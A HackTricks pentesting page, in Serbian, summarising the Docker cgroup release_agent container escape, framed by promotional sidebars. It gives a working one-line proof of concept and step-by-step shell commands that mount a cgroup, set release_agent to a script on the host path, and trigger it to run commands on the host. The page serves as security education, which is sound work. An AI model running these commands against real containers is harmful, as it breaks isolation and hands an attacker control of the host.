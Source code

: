 # Docker release\_agent cgroups escape

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

**Za dalje detalje, pogledajte** [**originalni blog post**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)**.** Ovo je samo sažetak:

Originalni PoC:

```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

Dokazni koncept (PoC) demonstrira metod za iskorišćavanje cgroups-a kreiranjem `release_agent` fajla i pokretanjem njegovog pozivanja kako bi se izvršile proizvoljne komande na hostu kontejnera. Evo pregleda koraka uključenih u proces:

1. **Priprema okruženja:**

* Kreira se direktorijum `/tmp/cgrp` koji će služiti kao tačka montiranja za cgroup.
* RDMA cgroup kontroler se montira na ovaj direktorijum. U slučaju odsustva RDMA kontrolera, predlaže se korišćenje `memory` cgroup kontrolera kao alternativu.

```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

2. **Postavite podgrupu deteta:**

* Unutar montiranog direktorijuma cgroup, kreirajte podgrupu deteta nazvanu "x".
* Omogućite obaveštenja za podgrupu "x" tako što ćete upisati 1 u njegovu datoteku notify\_on\_release.

```shell
echo 1 > /tmp/cgrp/x/notify_on_release
```

3. **Konfigurišite Release Agent:**

* Putanja kontejnera na hostu se dobija iz fajla /etc/mtab.
* Zatim se konfiguriše release\_agent fajl cgroup-a da izvrši skriptu nazvanu /cmd smeštenu na dobijenoj putanji hosta.

```shell
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

4. **Kreiranje i konfigurisanje skripte /cmd:**

* Skripta /cmd se kreira unutar kontejnera i konfiguriše se da izvrši ps aux, preusmeravajući izlaz u datoteku nazvanu /output unutar kontejnera. Specifikuje se puna putanja /output na hostu.

```shell
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```

5. **Pokrenite napad:**

* Pokreće se proces unutar "x" podgrupe djece i odmah se zaustavlja.
* To pokreće `release_agent` (skriptu /cmd), koja izvršava ps aux na hostu i zapisuje izlaz u /output unutar kontejnera.

```shell
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
